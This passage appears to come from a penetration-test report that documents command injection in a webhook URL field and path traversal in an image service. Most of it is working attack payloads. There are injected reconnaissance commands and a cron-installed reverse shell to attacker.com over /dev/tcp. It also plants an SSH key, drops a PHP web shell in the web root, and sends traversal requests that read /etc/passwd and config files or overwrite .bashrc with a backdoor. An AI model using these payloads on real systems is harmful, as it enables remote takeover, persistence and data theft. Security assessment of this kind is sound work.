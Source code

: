    **System Information Gathering:**
   ```
   google.com; uname -a; id; ps aux; netstat -tulpn
   ```

4. **Attack Process:**
   - Enter malicious payload in the connection test URL field
   - Example: `8.8.8.8; cat /etc/passwd > /tmp/pwned.txt`
   - Submit the form through the webhook interface
   - The command executes on the server with application privileges

5. **Persistence and Escalation:**
   - **Cron Job Installation:** `google.com; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'" | crontab -`
   - **SSH Key Installation:** `google.com; mkdir -p ~/.ssh; echo "ssh-rsa AAAAB3..." >> ~/.ssh/authorized_keys`
   - **Backdoor Creation:** `google.com; echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php`

**Attack Scenarios:**
- **Remote Shell Access:** Establish persistent shell access to the server
- **Data Theft:** Extract sensitive files and database contents
- **Lateral Movement:** Use compromised server to attack internal network
- **Service Disruption:** Modify or delete critical system files

**Impact:**
- Complete server compromise with arbitrary command execution
- Access to all application data and system files
- Potential privilege escalation to root access
- Use of server as pivot point for further network attacks

---

### 6. Path Traversal - Image Service File Operations

**Vulnerability Details:**
The image service allows path traversal attacks through both file viewing and file upload functionality, enabling attackers to read and write arbitrary files on the server.

**Exploitation via Frontgate Interface:**

1. **Read Sensitive Files:**
   ```
   GET /api/photos/view?path=../appsettings.json
   GET /api/photos/view?path=../../root/.bashrc
   GET /api/photos/view?path=../../../etc/passwd
   ```

2. **Write Malicious Files (via upload with traversal filename):**
   ```
   POST /api/photos/upload
   Content-Type: multipart/form-data
   
   file: (filename: "../../root/.bashrc", content: modified_bashrc_with_backdoor)
   ```
